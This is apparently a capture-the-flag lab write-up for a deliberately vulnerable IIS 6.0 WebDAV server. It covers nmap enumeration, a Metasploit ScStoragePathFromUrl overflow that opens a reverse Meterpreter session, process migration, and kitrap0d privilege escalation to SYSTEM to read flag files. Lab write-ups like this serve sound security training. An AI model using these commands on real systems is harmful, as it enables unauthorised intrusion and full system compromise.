

Target: 10.10.10.14

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.14 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-17 09:22 PDT
Nmap scan report for 10.10.10.14
Host is up (0.037s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Mon, 17 May 2021 16:23:05 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

checking 10.10.10.14




### Findings:Looking for attack vectors

Exploit outdated services.


## Foothold:

Metasploit
```
$ msfconsole
```

searching for microsoft iis exploits
```
search Microsoft IIS - WebDav

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/windows/iis/ms03_007_ntdll_webdav            2003-05-30       great      Yes    MS03-007 Microsoft IIS 5.0 WebDAV ntdll.dll Path Overflow                                                                               
   1  exploit/windows/ssl/ms04_011_pct                     2004-04-13       average    No     MS04-011 Microsoft Private Communications Transport Overflow
   2  exploit/windows/iis/iis_webdav_upload_asp            2004-12-31       excellent  No     Microsoft IIS WebDAV Write Access Code Execution
   3  exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual     Yes    Microsoft IIS WebDav ScStoragePathFromUrl Overflow

use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
set LHOST tun0
run
```

```
meterpreter > getuid

[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```

migrating to a user PID
```
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 216   1084  cidaemon.exe
 272   4     smss.exe
 316   1084  cidaemon.exe
 324   272   csrss.exe
 348   272   winlogon.exe
 396   348   services.exe
 408   348   lsass.exe
 592   396   svchost.exe
 680   396   svchost.exe
 736   396   svchost.exe
 764   396   svchost.exe
 800   396   svchost.exe
 936   396   spoolsv.exe
 964   396   msdtc.exe
 1084  396   cisvc.exe
 1124  396   svchost.exe
 1180  396   inetinfo.exe
 1216  396   svchost.exe
 1316  396   VGAuthService.exe
 1408  396   vmtoolsd.exe
 1456  396   svchost.exe
 1596  396   svchost.exe
 1772  396   alg.exe
 1808  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.ex
                                                                             e
 1900  396   dllhost.exe
 2164  1456  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2240  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata
                                                                             .exe
 2344  348   logon.scr
 2352  2164  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 2424  592   wmiprvse.exe
 4076  1084  cidaemon.exe

meterpreter > migrate 1808

[*] Migrating from 2352 to 1808...
[*] Migration completed successfully.
```

```
meterpreter > getuid

Server username: NT AUTHORITY\NETWORK SERVICE
```


## Priv Escalations:

enumerating using local exploit suggester
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 37 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

trying exploits
```
meterpreter > bg

[*] Backgrounding session 1...

use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
set LHOST tun0
set LPORT 4445
run
```

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > cd C:\\"Documents and Settings"\\Harry\\Desktop

meterpreter > cat user.txt

<redacted>

meterpreter > cd C:\\"Documents and Settings"\\Administrator\Desktop

meterpreter > cat root.txt

<redacted>
```
